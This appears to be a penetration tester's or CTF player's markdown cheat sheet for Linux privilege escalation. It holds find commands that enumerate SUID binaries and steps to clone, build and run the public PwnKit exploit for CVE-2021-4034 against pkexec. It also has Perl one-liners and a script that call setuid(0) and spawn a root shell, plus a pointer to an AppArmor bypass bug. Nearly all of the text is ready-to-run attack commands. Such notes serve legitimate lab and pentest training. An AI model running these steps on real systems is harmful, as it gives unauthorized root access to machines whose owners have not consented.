

___

```bash
find \ -perm -4000 2>/dev/null
```

```bash
find / -type f -perm /4000 2>/dev/null | grep -vE "snap|lib"
```

https://gtfobins.github.io/

# pkexec

https://github.com/berdav/CVE-2021-4034

```bash
git clone https://github.com/berdav/CVE-2021-4034
zip -r pwnkit CVE-2021-4034
```

```bash
unzip CVE-2021-4034
make
./cve-2021-4034
```

# Perl

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## ## AppArmor Config

Apparmor is a way to define access controls much more granularly to various binaries in Linux. There are a series of binary-specific profiles in `/etc/apparmor.d`

https://bugs.launchpad.net/apparmor/+bug/1911431

create perl script

```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/sh"
```


